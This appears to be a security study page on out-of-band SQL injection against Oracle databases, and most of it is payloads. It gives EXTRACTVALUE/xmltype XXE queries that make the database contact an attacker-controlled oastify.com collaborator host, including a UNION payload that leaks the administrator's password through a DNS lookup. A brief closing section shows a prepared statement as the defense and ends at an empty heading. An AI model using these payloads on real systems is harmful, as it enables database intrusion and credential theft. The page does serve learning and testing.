 

DNS Lookup:

{% code overflow="wrap" %}
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual
```
{% endcode %}



Payload

{% code overflow="wrap" %}
```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual--
```
{% endcode %}



Query For Username and Password

{% code overflow="wrap" %}
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```
{% endcode %}



Payload

{% code overflow="wrap" %}
```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.mxnzb3id8s5c4ybbbezsdqg8xz3qrhf6.oastify.com/"> %remote;]>'),'/l') FROM dual--
```
{% endcode %}



### Defense Against SQL Injection

Use Prepared Statement

> Instead of putting user input directly into SQL query Use a placeholder for the user input.

{% code overflow="wrap" %}
```sql
$stmt = $pdo->prepare('SELECT * FROM users WHERE username = ?'); $stmt->execute([$username]);
```
{% endcode %}

Use SQL stored Commands

